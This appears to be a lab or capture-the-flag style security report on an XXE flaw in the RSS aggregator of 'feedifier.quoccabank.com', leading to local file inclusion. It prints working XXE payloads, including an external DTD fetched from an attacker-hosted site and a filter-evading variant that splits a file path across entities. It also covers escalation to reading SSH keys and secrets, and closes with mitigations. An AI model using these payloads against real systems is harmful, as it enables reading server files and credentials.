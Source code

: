 # XML external entities vulnerability in 'feedifier.quoccabank.com' leading to local file inclusion

## Severity : Critical

## Report summary:

XXE vulnerability in the RSS aggregator functionality on  endpoints:

- 'https://v1.feedifier.quoccabank.com' 
- 'https://v2.feedifier.quoccabank.com'
- 'https://v3.feedifier.quoccabank.com'

leads to there being a local file inclusion vulnerability on all three of these end points.

## Steps to reproduce

Host your own website to serve your own malicious RSS files.

- **important note**
  - host the pages with a .html extension

Navigate to either v1, v2 or v3 versions for example "https://v1.feedifier.quoccabank.com"

Paste in the address to your external website which contains the malicious XML document.

![image-20210709172612058](./images/feed1.png)

The output should look something like this:

![image-20210709175224832](./images/feed2.png)

## Proof of concept 

### v1.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file://<file_path>" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```



### v2.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title[<!ENTITY % load SYSTEM "<insert website here>/<external_dtd_path>.html"> %load;%bundle;] PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd" >
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&atak;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

External dtd file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % payload SYSTEM "file://<insert file path>">
<!ENTITY % end "]]>">
<!ENTITY atak "%beg;%payload;%end;">
```

 

### v3.feedifier

v3's exploit is basically identical to v2 with some changes in the DTD file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % end "]]>">

<!ENTITY % a "fi">
<!ENTITY % b "le:///fla">
<!ENTITY % c "g_d0642f00f99dbc509cf0551ddb81527d" >
<!ENTITY % d "%a;%b;%c;">

<!ENTITY % bundle "<!ENTITY atak '%beg;%d;%end;'>">
```

## Impacts and Attack scenarios

Since the attacker is able to gain local file inclusion in the server, thereby obtaining a foothold onto the server, they are able to freely roam and obtain methods of entering the server by means such as viewing SSH keys, Flask secret keys, other server secrets as well as open up other attack vectors such as server side request forgery ultimately leading to Remote Code Execution on the server. Therefore this vulnerability is categorized as a critical vulnerability since local file inclusion vulnerabilities are easily escalated into RCEs.

## Mitigations

Mitigations to XXE vulnerabilities include disabling external entities features such as the DTD and XML external entity features. Furthermore XML processors and other dependencies must be regularly updated to be protect the server against old patched vulnerabilities.

